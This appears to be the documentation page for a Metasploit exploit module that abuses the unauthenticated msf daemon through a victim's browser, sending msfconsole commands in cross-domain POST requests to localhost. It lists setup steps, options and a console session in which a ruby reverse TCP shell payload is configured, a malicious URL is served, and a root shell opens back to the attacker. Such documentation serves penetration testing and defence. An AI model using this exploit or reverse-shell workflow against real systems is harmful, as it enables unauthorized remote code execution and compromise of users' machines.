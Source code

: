 ## Description

This module connects to the Metasploit msf daemon and uses the ruby interpreter
to achieve a shell. This module can be used when the vulnerable service is only
listening on localhost and the attacker has not achieved a foothold on the
machine. To achieve code execution, the data is sent from the victim's browser.
To achieve this, the victim must visit the attacker's web site.

## Vulnerable Application

[Metasploit](https://github.com/rapid7/metasploit-framework) has a legacy method
of providing remote access. The msf daemon provides no means of authentication
and is therefore vulnerable against an attacker who has IP access to the daemon.
In those cases where the daemon is listening on localhost, we take advantage of
the fact that the victim's web browser has IP access to the daemon.

Because the msfconsole-program is line-based, it is possible to successfully
send commands through the HTTP-protocol. This module takes advantage of this by
placing the msfconsole-command in the POST-data of a HTTP-request. Since these
POST-requests are considered safe to send cross-domain, it is possible to send
them from the attacker's web application and to localhost using the victim's
browser.

All versions of Metasploit are affected by this module, however testing has only
been performed on the following targets:

* Metasploit 5.0.0 on Ubuntu 16.04 (using Firefox and Chrome)
* Metasploit 4.16.51 on Windows 7 (using IE, exploitation failed in Firefox and
  Chrome)

***NB!*** Exploitation on Windows had a higher degree of success, when the
quiet-flag was sent to the msf daemon. On Linux, it made no difference.

Source code and installers:

  * [Source Code Repository](https://github.com/rapid7/metasploit-framework)
  * [Installers](https://github.com/rapid7/metasploit-framework/wiki/Downloads-by-Version)

## Verification Steps

1. Start the vulnerable service `msfd -q -f`
2. Start `msfconsole`
3. Do: `use exploit/multi/browser/msfd_rce_browser`
4. Do: `set REMOTE_IP [IP]` (default: `127.0.0.1`)
5. Do: `set RPORT [PORT]` (default: `55554`)
6. Do: `set PAYLOAD [PAYLOAD]`
7. Do: `exploit`
8. Do: Visit the listed URL from the victim's machine
9. You should get a shell


## Options

Options unique for this module is described below.

  **REMOTE_IP**

  IP to target when running inside the victim's browser.

  **REMOTE_PORT**

  Remote port the vulnerable service is running at, default is 55554.


## Scenarios

### Through the victim's browser

 ```
  msf5 > use exploit/multi/browser/msfd_rce_browser
  msf5 exploit(multi/browser/msfd_rce_browser) > set payload ruby/shell_reverse_tcp
  payload => ruby/shell_reverse_tcp
  msf5 exploit(multi/browser/msfd_rce_browser) > set lhost 192.168.0.17
  lhost => 192.168.0.17
  msf5 exploit(multi/browser/msfd_rce_browser) > set lport 443
  lport => 443
  msf5 exploit(multi/browser/msfd_rce_browser) > exploit 
  [*] Exploit running as background job 0.

  [-] Handler failed to bind to 192.168.0.17:443:-  -
  [*] Started reverse TCP handler on 0.0.0.0:443 
  msf5 exploit(multi/browser/msfd_rce_browser) > [*] Using URL:
  http://0.0.0.0:8080/J5ras6oYftFWW4
  [*] Local IP: http://172.17.0.2:8080/J5ras6oYftFWW4
  [*] Server started.
  ```

Visit the web site listed in a browser on the victim's machine and you should
get the output below.

 ```
  [*] 192.168.0.17     msfd_rce_browser - 192.168.0.17     msfd_rce_browser
  Sending HTML...
  [*] Command shell session 4 opened (172.17.0.2:443 -> 192.168.0.17:48376) at 2018-04-22 19:15:07 +0000
  id
  [*] exec: id

  uid=0(root) gid=0(root) groups=0(root)
 ```
